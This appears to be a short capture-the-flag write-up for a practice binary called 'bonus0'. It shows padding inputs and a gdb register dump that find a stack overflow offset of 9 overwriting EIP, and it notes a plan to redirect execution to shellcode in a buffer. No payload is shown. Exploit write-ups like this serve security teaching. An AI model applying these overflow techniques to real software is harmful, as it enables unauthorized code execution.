 ## bonus0
In `bonus0` we will find three functions`p() pp() main()`






-------------------------------------------------------------
After some tests we find our *offset* as a value of `9`
```
-
AAAAAAAAAAAAAAAAAAAA
-
BBBBBBBBBBCCCCCCCCCC
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBCCCCCCCCCC�� BBBBBBBBBBCCCCCCCCCC��  <-- here with 10 B we still have one 42 at the address
0x43434342 in ?? () <-- the last 42 it's the 10th B

-
AAAAAAAAAAAAAAAAAAAA
-
BBBBBBBBBCCCCCCCCCCC
AAAAAAAAAAAAAAAAAAAABBBBBBBBBCCCCCCCCCCC�� BBBBBBBBBCCCCCCCCCCC�� <-- here with 9 B the address of the $eip is set to 0x43434343 that is the C
0x43434343 in ?? () <-- offset equal 9

(gdb) i r
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff700	0xbffff700
ebp            0x42424242	0x42424242
esi            0x0	0
edi            0x0	0
eip            0x43434343	0x43434343    <--- the eip is overwrote, here we need to put the address of the buffer[0x100] with our shellcode
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
